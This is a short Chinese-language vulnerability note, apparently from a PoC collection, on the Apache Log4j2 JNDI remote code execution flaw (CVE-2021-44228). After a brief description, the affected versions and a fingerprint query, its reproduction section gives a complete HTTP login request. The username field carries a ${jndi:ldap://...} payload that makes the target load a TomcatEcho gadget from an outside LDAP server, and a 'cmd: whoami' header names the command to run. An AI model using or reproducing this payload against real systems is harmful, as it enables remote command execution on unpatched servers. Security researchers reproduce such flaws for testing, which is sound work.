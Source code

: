 # Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2是一款使用非常广泛的Java日志框架。2021年12月9日，Apache Log4j2爆出存在远程代码执行漏洞，由于Apache Log4j2广泛地应用在各种Web程序中，该漏洞涉及用户量较大，危害性非常之高，漏洞影响版本为2.0~2.14.1。

## 漏洞影响

```
2.0~2.14.1
使用此依赖的JAVA应用
```

## 网络测绘

```
app="Log4j2"
```

## 漏洞复现

参数点发送请求

![image-20220525161318497](./images/202205251613541.png)

```
POST /api/2.0/login HTTP/1.1
Host:
Cookie: JSESSIONID_AV=567CEDA964EE4D5DA8B7FC8C90912B01
Content-Length: 86
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
cmd: whoami
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"${jndi:ldap://xxx.xxx.xxx.xxx:1389/Basic/TomcatEcho}","password":"admin"}
```

![image-20220525161339254](./images/202205251613331.png)